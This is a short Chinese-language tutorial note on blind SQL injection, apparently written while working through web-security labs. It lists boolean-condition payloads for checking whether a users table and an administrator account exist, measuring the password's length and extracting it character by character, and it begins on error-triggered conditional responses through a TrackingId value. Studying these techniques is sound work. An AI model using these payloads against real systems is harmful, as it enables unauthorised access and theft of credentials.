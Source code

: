 ## SQL盲注

### 触发条件响应SQL盲注

#### 判断是否存在注入

利用 ' / " 进行模糊测试
在以条件注入判断其是否存在注入

> 'AND 1=1 -- &emsp;&emsp;&emsp;&emsp;&emsp;&emsp;TURE 返回成功页面
> 'AND 1=0 -- &emsp;&emsp;&emsp;&emsp;&emsp;&emsp;FASE 未能返回成功页面 

#### 判断是否存在表

>' AND (SELECT 'a' FROM users LIMIT 1)='a
>TURE 返回成功页面存在 users表
>FASE  未能返回成功页面不存在 users表

#### 判断是否存在内容

>' AND (SELECT 'a' FROM users WHERE username='administrator')='a
>TURE 返回成功页面 存在 administrator用户
>FASE 未能返回成功页面 不存在administrator用户

#### 判断内容长度

>' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
>判断字符是否大于1
>' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a
>判断字符是否大于2

#### 判断内容

>' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
>判断第一个字符是否是a
>' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a
>判断第二个字符是否是a




### 触发SQL错误诱导条件响应

假设应用程序执行相同的 SQL 查询，但根据查询是否返回任何数据，其行为没有任何不同。前面的技术将不起作用，因为注入不同的布尔条件对应用程序的响应没有影响。
在这种情况下，通常可以通过有条件地触发 SQL 错误来诱导应用程序返回条件响应，具体取决于注入的条件。这涉及修改查询，以便在条件为真时会导致数据库错误，但如果条件为假则不会。

#### 判断是否存在注入

利用 ' / " 进行模糊测试

> TrackingId=xyz' （为其添加一个单引号）
> 验证是否收到错误消息
> TrackingId=xyz'' （将其更改为两个引号）
> 验证错误是否消失

*说明存在SQL注入*
